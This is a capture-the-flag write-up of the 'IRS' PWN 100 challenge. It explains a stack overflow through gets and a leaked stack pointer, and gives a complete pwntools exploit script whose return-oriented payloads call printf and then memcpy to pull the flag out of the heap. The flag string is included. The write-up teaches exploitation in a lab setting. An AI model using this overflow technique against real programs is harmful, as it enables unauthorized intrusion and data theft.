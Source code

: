 ## IRS (PWN 100)

by droofe

When running the binary, I started by noticing that Mr. Trumps tax return was already filed. Hm? Lets go ahead and try to open it!

```
Welcome to the IRS!
How may we serve you today?
1. File a tax return
2. Delete a tax return
3. Edit a tax return
4. View a tax return
5. Exit

Tax returns on file:
0 - Donald Trump
4
Enter the name of the file to view: Donald Trump
Enter the password: ...
```


Password protected... okay awesome. After messing around and filing a few tax returns on my own, the program complained after I had made four additional returns, saying "blah blah blah, if this problem persists call us at 0xf7d35678". 

WOW! A free leak already. So, I decided to drop the binary into IDA and see what I was dealing with.

After some analysis, I saw that the binary started off and malloc'ed a space for Donald Trumps tax return and put the flag as the password. Awesome, goal: find the password to his tax return.

### Vulnerability
The vulnerability comes into play if you try to edit your tax return. After editing the tax return, it asks you to confirm, prompting you for [y/n], which is read in by none other than `gets`. Turns out the pointer given above was a pointer to the spot on the stack that holds the malloc'ed address of Trumps Tax return. Using the gets stack control, I used printf to leak that address with my first edit, and then memcpy to move the password to the name field with the second edit.

```python
from pwn import *
from time import sleep

s = 0

def fileReturn(name, password, income, deduc):
	s.sendline("1")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	garbage = s.recvuntil("!")
	menu = s.recv(1024)

def editReturn(name, password, income, deduc, payload, time=1):
	s.sendline("3")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	for item in payload:
		s.send(item)
	s.sendline("")
	s.recvuntil("recorded!")
	s.recv(2)

	if time==1:
		return int(s.recvuntil("\n")[:4][::-1].encode('hex'),16)

def getStackAddress():
	s.sendline("1")
	s.recvuntil(": ")
	address = int((s.recvuntil("\n").strip()[2::]),16)
	menu = s.recv(1024)
	return address

#s = process("./irs", env={"LD_LIBRARY_PATH": "."})
s = remote("irs.pwn.republican", 4127)
#e = ELF("./irs")

#raw_input("Waiting...")

menu = s.recv(1024)

fileReturn("edwood", "password1", "100", "100")
fileReturn("edwood", "password2", "100", "100")
fileReturn("edwood", "password3", "100", "100")
fileReturn("edwood", "password4", "100", "100")

stackAddr = getStackAddress()
ebp = stackAddr + 0x30
log.info("Stack address {:x}".format(stackAddr))
log.info("EBP address {:x}".format(ebp))

payload = ['A'*21,
			p32(ebp),
			p32(0x080484D0), #call to printf
			p32(0x08048AFD), #ret to main
			p32(stackAddr),
			]

my_heapaddr = editReturn("edwood", "password1", "100", "100", payload)

their_heapaddr_name = my_heapaddr
their_heapaddr_flag = their_heapaddr_name + 50

log.info("Name at {:x}".format(their_heapaddr_name))
log.info("Flag at {:x}".format(their_heapaddr_flag))

payload = ['A'*21,
			p32(ebp),
			p32(0x08048528), #call to memcpy
			p32(0x08048AFD), #ret to main
			p32(their_heapaddr_name), #dst
			p32(their_heapaddr_flag), #src
			p32(50) #len
			]


editReturn("edwood", "password1", "100", "100", payload, time=2)
s.interactive()


# flag{c4n_1_g3t_a_r3fund}
```
